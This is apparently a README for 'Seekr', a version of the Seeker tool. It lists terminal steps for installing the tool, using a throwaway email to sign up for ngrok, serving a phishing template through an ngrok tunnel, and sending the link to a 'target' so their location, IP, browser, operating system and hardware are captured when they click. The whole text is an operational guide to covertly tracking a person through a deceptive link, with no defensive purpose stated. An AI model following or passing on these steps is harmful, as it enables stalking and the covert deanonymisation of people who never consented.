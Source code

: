 # Seekr
Find IP and location on target
Thanks to TheWhiteh4t for this software.

Find location and IP of any target.

1 apt update
2 apt install git
3 clone into seeker by command " git clone" followed by copied link
4 type "ls" to see if seeker is present
5 Head over to ngrok website and create profile, signup page
6 Head over to tempmail.org to create a temporary mail address (this will be used for ngrok signup)
7 Now enter the temp mail generated inside ngrok signup, and go back to temp mail to verify the email address.
8 Download ngrok, youll have a .tgz file in downloads
9 Open a new terminal type " cd Downloads" to get into downloads folder
10 Type "ls" to list downloads. ngrok should be there now hence you just downloaded it. Copy this link to folder path
11 Paste the folder path in your terminal "tar -xf ngrok-v3-stable-linux-amd64.tgz"
12 type "ls" to see that it has been listed
13 Type "chmod +x ngrok" Note the "x" is not multiply sign, its an ex"
14 Go back to your ngrok acc and copy your "AuthToken" and paste it in the terminal eg ./ngrok config add-authtoken 2Tghbn677474556.....
15 You will see the authtoken has been saved to config file
16Now type "ngrok http 8080" and press enter. You should now be in.

17 Go back to root terminal and type "ls" to see if seeker is present.
18 Type "cd seeker" 
19  Type "ls" again
20 Type "chmod +x install.sh
21 Type "./install.sh" Python 3, PIP and PHP should now install
22 Now type " python seeker.py' and seeker should open.
23 From the list you can choose which option you want to use by typing a nr 1,2,3,4,5,6,7 or 0
After choosing an indication will be given that template was loaded 


Head back to the non root terminal and type "./ngrok http 8080" and copy the Forwarding link. dont copy the part from the arrow onwards, everything before the arrow can be copied. This link is the link sent to the target.

When the target clicks on the link, you will see the info on their location, IP, browser they use, Operating system, GPU, Country and so on.


